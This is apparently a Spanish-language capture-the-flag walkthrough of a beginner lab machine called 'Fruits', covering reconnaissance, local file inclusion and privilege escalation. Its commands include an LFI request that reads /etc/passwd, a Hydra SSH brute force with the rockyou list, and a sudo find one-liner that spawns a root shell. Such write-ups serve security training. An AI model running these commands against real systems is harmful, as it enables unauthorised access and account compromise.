 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Fruits

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.60
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (16).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.60
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (17).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 192.168.1.60
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (18).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos una página de frutas para buscarlas.

<figure><img src="../../.gitbook/assets/imagen (19).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html -t 100
```

<figure><img src="../../.gitbook/assets/imagen (20).png" alt=""><figcaption></figcaption></figure>

Después de realizar una revisión inicial, observamos que al acceder al directorio `/fruits.php`, este aparece en blanco. Esto nos lleva a sospechar que podría tratarse de una vulnerabilidad de inclusión local de archivos (LFI, por sus siglas en inglés). Para confirmar esta hipótesis y explorar posibles parámetros que alteren el comportamiento de la página, decidimos utilizar la herramienta **wfuzz**. El objetivo es identificar parámetros ocultos o no documentados que permitan explotar la vulnerabilidad o arrojar más información sobre el funcionamiento del archivo.

A continuación, ejecutamos **wfuzz** para enumerar parámetros potenciales que puedan estar presentes en la página y desencadenar un comportamiento diferente, lo cual nos ayudará a validar si realmente estamos ante una vulnerabilidad LFI.

```bash
wfuzz -c --hl=1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.1.60/fruits.php?FUZZ=/etc/passwd
```

<figure><img src="../../.gitbook/assets/imagen (21).png" alt=""><figcaption></figcaption></figure>

Ahora debemos ingresar en el buscador esto:

```bash
http://192.168.1.60/fruits.php?file=/etc/passwd
```

<figure><img src="../../.gitbook/assets/imagen (22).png" alt=""><figcaption></figcaption></figure>

Observamos que el comando **file** nos devuelve un resultado exitoso, revelando el contenido del archivo `/etc/passwd`. Esto nos permite identificar los usuarios del sistema. Entre ellos, destaca el usuario **bananaman**, ya que tiene acceso a la shell `/bin/bash`. Este detalle es relevante, ya que indica que **bananaman** es un usuario con permisos de inicio de sesión en el sistema, lo que podría ser útil para futuras acciones de escalada de privilegios o acceso remoto.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.60
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.60**.

<figure><img src="../../.gitbook/assets/imagen (23).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **bananaman**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh bananaman@192.168.1.60
```

<figure><img src="../../.gitbook/assets/imagen (24).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/imagen (25).png" alt=""><figcaption></figcaption></figure>

Al ejecutar el comando `sudo -l`, observamos que tenemos permisos para ejecutar el comando `find` como el usuario root. Esto indica que podríamos explotar esta configuración para elevar nuestros privilegios. Consultando la web de **GTFOBins**, encontramos que el comando `find` es vulnerable y puede ser utilizado para obtener acceso con privilegios de root.

La secuencia de comandos que nos permite aprovechar esta vulnerabilidad es la siguiente, tomada directamente de [GTFOBins](https://gtfobins.github.io/gtfobins/find/):

```
sudo /usr/bin/find -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/imagen (26).png" alt=""><figcaption></figcaption></figure>

Hemos finalizado con éxito **todas las etapas del proceso** y cumplido con todos los **requisitos**.&#x20;

¡Buena suerte en tu búsqueda de las **flags**! Recuerda prestar atención a cada detalle, examinar los archivos y servicios detenidamente, y utilizar todas las herramientas a tu alcance para encontrarlas. ¡La clave está en la perseverancia y en no dejar nada sin explorar! ¡Adelante, hacker! 💻🔍🚀
